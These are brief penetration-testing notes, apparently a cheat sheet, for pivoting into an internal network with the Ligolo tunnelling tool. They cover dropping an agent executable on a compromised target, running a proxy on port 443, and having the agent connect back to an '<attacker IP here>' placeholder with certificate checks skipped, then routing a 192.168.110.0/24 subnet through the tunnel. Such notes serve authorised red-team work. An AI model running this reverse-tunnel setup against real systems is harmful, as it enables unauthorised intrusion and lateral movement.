 drop ligolo-agent.exe (and wintun.dll?) on target

sudo ip tuntap add user [your_username] mode tun ligolo

sudo ip link set ligolo up

sudo ligolo-proxy -selfcert -laddr 0.0.0.0:443

// on target
./ligolo-agent.exe -connect <attacker IP here>:443 -ignore-cert

session -> choose session

//add route to destination
sudo ip route add 192.168.110.0/24 dev ligolo

tunnel_start